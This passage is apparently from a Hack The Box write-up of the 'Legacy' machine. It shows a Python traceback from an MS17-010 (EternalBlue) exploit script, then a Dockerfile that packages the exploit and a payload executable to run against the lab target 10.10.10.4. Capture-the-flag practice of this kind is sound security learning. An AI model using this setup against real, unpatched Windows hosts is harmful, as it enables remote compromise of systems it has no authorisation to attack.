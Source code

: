 ```bash
    conn.send_trans_secondary(mid=info['fid'], data='\x00', dataDisplacement=NEXT_TRANS_OFFSET+tinfo['TRANS_MID_OFFSET'])
  File "/home/kali/Documents/RxHack/HTB/BOXES/LEGACY/working/mysmb.py", line 309, in send_trans_secondary
    self.send_raw(self.create_trans_secondary_packet(mid, param, paramDisplacement, data, dataDisplacement, pid, tid, noPad))
  File "/home/kali/Documents/RxHack/HTB/BOXES/LEGACY/working/mysmb.py", line 305, in create_trans_secondary_packet
    _put_trans_data(transCmd, param, data, noPad)
  File "/home/kali/Documents/RxHack/HTB/BOXES/LEGACY/working/mysmb.py", line 83, in _put_trans_data
    transData += (b'\x00' * padLen) + data
TypeError: can't concat str to bytes
```

Crap- I'm running the script as `#!/usr/bin/env python3` and the script itself was written for python2, so we're still in this python dependency hell. Annoying.

No matter, DevOps Engineering skills to the rescue:

### custom solution

The idea here is to pack everything into a python2 image base, install all the python2 dependencies, and run the python2 scripts from inside a fully dependant container.

```docker
FROM python:2.7

# update pip
RUN pip install --upgrade pip

# install dependencies for the env
RUN pip install ldap3==2.5.1 \
    future \
    dnspython \
    cryptography==2.3 \
    MarkupSafe==0.23

# set the working directory
WORKDIR /app

# copy our files from host to container
COPY ms17-010.exe send_and_execute.py mysmb.py /app/ 

# download & install impacket
RUN git clone https://github.com/SecureAuthCorp/impacket.git
RUN cd impacket && python2 -m pip install .

# set our command to run when the container is run
CMD ["/usr/local/bin/python", "./send_and_execute.py", "10.10.10.4", "./ms17-010.exe"]
```

Build our container: `docker build -t bluexp .`
